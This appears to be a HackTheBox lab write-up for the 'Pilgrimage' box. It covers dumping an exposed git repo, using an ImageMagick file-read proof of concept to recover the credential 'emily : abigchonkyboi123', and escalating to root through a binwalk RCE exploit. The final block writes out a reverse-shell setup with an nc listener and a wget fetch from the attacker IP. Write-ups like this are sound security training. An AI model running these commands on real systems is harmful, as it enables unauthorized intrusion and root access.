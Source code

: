 ```yaml
---
title: "Hackthebox Writeup Pilgrimage"
date: 2023-07-08T16:04:50+08:00
toc: true
draft: false
tags: [hackthebox]
---
```


<!--more-->

# User Shell

We found .git directory from nmap

![](https://i.imgur.com/zDIJgzy.png)   

We can use git-dumper to dump the git repo

```bash 
./git_dumper.py http://pilgrimage.htb/.git dump
``` 
 
We found a binary file magick, google it we found a poc
https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC

```
total 26972
drwxr-xr-x 5 kali kali     4096 Jul  8 02:30 .
drwxr-xr-x 4 kali kali     4096 Jul  8 04:44 ..
drwxr-xr-x 6 kali kali     4096 Jul  8 02:30 assets
-rwxr-xr-x 1 kali kali     5538 Jul  8 02:30 dashboard.php
drwxr-xr-x 7 kali kali     4096 Jul  8 02:30 .git
-rwxr-xr-x 1 kali kali     9250 Jul  8 02:30 index.php
-rwxr-xr-x 1 kali kali     6822 Jul  8 02:30 login.php
-rwxr-xr-x 1 kali kali       98 Jul  8 02:30 logout.php
-rwxr-xr-x 1 kali kali 27555008 Jul  8 02:30 magick
-rwxr-xr-x 1 kali kali     6836 Jul  8 02:30 register.php
drwxr-xr-x 4 kali kali     4096 Jul  8 02:30 vendor

```
 
We now can read any file we want, from the source code, we found "sqlite:/var/db/pilgrimage"

![Imgur](https://i.imgur.com/k15YNzy.png)
Read that file, we can find the password of emily

`emily : abigchonkyboi123`

Then we are able to ssh with emaily

# Root

From linpeas reuslt, we can find a file “/usr/sbin/malwarescan.sh” executed by root
![Imgur](https://i.imgur.com/4dsfHLx.png)

![Imgur](https://i.imgur.com/sppCU1a.png)

By reading the content, the script means:
1. notice new created any file in "/var/www/pilgrimage.htb/shrunk/"
2. binwalk the new files
3. If the file containsed blacklist, it will remove it


the binwalk location is intersting, we dry run it once

![Imgur](https://i.imgur.com/Wb4uAYx.png)

We could knew it is v2.3.2, google it, we will find it has a RCE vulnerability.

As a result, we use the poc to gain the root reverse shell
https://www.exploit-db.com/exploits/51249
```
# In host:
python3 lpe.py shit.png 10.10.14.35 443

nc -lvnp 443

# In victim:
wget 10.10.14.35/binwalk_exploit.png
```
